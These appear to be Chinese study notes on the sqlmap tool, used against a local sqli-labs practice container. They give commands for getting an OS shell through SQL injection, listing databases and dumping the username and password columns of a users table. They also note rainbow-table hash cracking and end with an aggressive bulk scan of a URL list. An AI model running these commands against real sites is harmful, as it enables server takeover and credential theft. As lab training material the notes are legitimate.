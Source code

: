 1. 选项--os-cmd,--os-shell（功能强大，使用限制高）
	- 需要具有文件夹写权限(root 更好)
	- #网站的路径，里面提供部分默认选项，需要保证路径匹配	
	- #PHP 主动转义的功能关闭(magic_quotes_gpc)
	- python36 sqlmap.py -u "http://10.8.250.77:8082/Less-1?id=1" --os-shell --batch
	- python36 sqlmap.py -u "http://10.8.250.77:8082/Less-1?id=1" --os-cmd='ll' --batch
	
## 实战场景
1. 获取当前用户下所有数据库
	- python36 sqlmap.py -u "http://10.8.250.77:8082/Less-1/?id=1" -dbs 
2. 获取当前数据库
	- python36 sqlmap.py -u "http://10.8.250.77:8082/Less-1/?id=1" --current-db
4. 获取数据库的表名
	- python36 sqlmap.py -u "http://10.8.250.77:8082/Less-1/?id=1" -D "security" -tables
6. 获取表中的字段
	- python36 sqlmap.py -u "http://10.8.250.77:8082/Less-1/?id=1" -D "security" -tables -T "users" --columns
8. 获取字段的内容
	- python36 sqlmap.py -u "http://10.8.250.77:8082/Less-1/?id=1" -D "security" -tables -T "users" -C "password,username" --dump
10. 下载数据库的内容
	- python36 sqlmap.py -u "http://10.8.250.77:8082/Less-1/?id=1" -D "security" -tables -T "users" -C "id,password,username" --dump-all
	 
## 相关说明
1. 密码爆破
	- 在显示表的情况下，使用了默认密码字典进行 Hash 转换，如果默认的密码字典不足到网上有专门的 md5 彩虹表碰撞网站。
	- agdlksagjlkagj:admin
	- agdlksagjlkagj:admin11
	- agdlksagjlkagj:admin234
1. sql日志记录
	- sqlmap有自己的日志和记录，存储扫描结果，如果发现扫描结果可以从记录中获取，就不会再重复扫描
	- 如果需要重新扫描，需要清空扫描结果
	- 扫描结果存储位置：.sqlmap目录
1. sqlmap之payload
	- sql-master/data/xml/payloads 目录下有 payload。
## 靶场环境
1. sqli-labs
	- docker search sqli-labs (看星星最多的镜像)
	- docker pull acgpiano/sqli-labs
	- docker run -dt --name sqli-labs -p 8082:80 --rm acgpiano/sqli-labs
	- 访问：http://10.8.250.77:8082
1. mysql
	- docker search mysql
	- docker pull mysql
	- docker run -d --restart=always --name=mysql -v /var/lib/mysql:/var/lib/mysql -v /etc/mysql:/etc/mysql -v /var/log/mysql:/var/log/mysql -p 3306:3306 -e TZ=Asia/Shanghai -e MYSQL_ROOT_PASSWORD=123456 mysql:latest --character-set-server=utf8mb4 --collation-server=utf8mb4_general_ci
	- #docker ps --format "table {{.Names}}"
## 测试
	- python36 sqlmap.py --random-agent  -m ./data/txt/urls.txt  -v 3 --batch --banner --level 5 --risk 3 --crawl 5 --threads=8




